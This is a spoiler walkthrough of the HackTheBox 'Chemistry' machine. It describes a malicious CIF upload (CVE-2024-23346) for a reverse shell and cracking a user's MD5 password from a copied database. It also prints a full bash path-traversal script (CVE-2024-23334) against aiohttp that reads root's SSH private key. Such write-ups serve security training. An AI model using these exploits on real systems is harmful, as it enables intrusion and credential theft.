# Chemistry CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Chemistry** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Chemistry). 
---

we know about 2 open ports 22 ssh and 5000 http



we found few hidden directories with feroxbuster



at the register page i created simple user test:test



we have options to upload CIF files and path to example cif file `/static/example.cif`

after googling i found how to smuggle python reverse shell inside .cif file
`https://github.com/Ohh-Raven/CIF-Payloads`,this is `CVE-2024-23346` ,I created mal.cif with rev shell 



after uploading and clicking view we got hit with rev shell as `app`





after taking a look we see `/home/app/instance/database.db` sqlite3 database, I copied this databse to my local machine via python server and used `DB Browser for SQLite` to analyize it content



i checked the /home directory and found another user `rosa`, rosa record is also in the database and we got her password

its md5 hash but we can easly crack it with crackstation.net



and it worked we are logged as rosa and we have user flag



i transfered pspy64 and linpeas to victim

there is a question `What TCP port is listening only on localhost and hosting webserver`: 8080



we can use ssh to create tunnel

```
ssh -L 8080:127.0.0.1:8080 rosa@10.10.11.38
```

now we can acces another dashboard by going to:

```
http://127.0.0.1:8080
```



next we can use to find what service is running

```
nmap -p 8080 -sC -sV 127.0.0.1
```



we know about aiohttp version 3.9.1

after googling `aiohttp 3.9.1 exploit` we found `CVE-2024-23334 aiohttp LFI` from this github site `https://github.com/z3rObyte/CVE-2024-23334-PoC`

using feroxbuster to find `http://127.0.0.1:8080/assets/`



we need to update the `exploit.sh` so it looks like this:

```
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/.ssh/id_rsa" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done

```

now by executing this script we got root ssh key



now we got root access and root flag 



# MACHINE PWNED
